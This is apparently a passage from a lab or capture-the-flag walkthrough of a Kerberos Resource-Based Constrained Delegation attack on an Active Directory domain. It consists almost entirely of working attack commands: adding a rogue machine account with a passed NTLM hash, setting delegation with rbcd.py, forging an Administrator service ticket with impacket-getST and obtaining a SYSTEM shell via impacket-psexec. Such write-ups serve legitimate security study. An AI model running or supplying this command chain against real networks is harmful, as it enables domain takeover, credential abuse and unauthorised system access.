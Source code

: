 -  L\.Livingstone@resourced\.local \-\-\-\-\-\-\-\-\-\-\> resourcedc\.resourced\.local
\( This means Kerberos Resourced Based Constraint Delegation attack is possible which allows to impersonal a user \(admin\)

-  create a new machine 

-  impacket\-addcomputer resourced\.local/L\.Livingstone \-dc\-ip 192\.168\.190\.175 \-hashes ':19a3a7550ce8c505c2d46b5e39d6f808' \-computer\-name 'ATTACK$' \-computer\-pass 'Attacker\!'
-  python rbcd\.py \-dc\-ip 192\.168\.190\.175 \-t RESOURCEDC \-f 'ATTACK' \-hashes ':19a3a7550ce8c505c2d46b5e39d6f808' resourced\\\\L\.Livingstone
-  impacket\-getST \-spn cifs/resourcedc\.resourced\.local resourced/attack\\$:'Attacker\!' \-impersonate Administrator \-dc\-ip 192\.168\.190\.175
-  export KRB5CCNAME=\./Administrator\.ccache
-  impacket\-psexec \-k \-no\-pass resourcedc\.resourced\.local \-dc\-ip 192\.168\.190\.175
C:\\Windows\\system32\> whoami
nt authority\\system
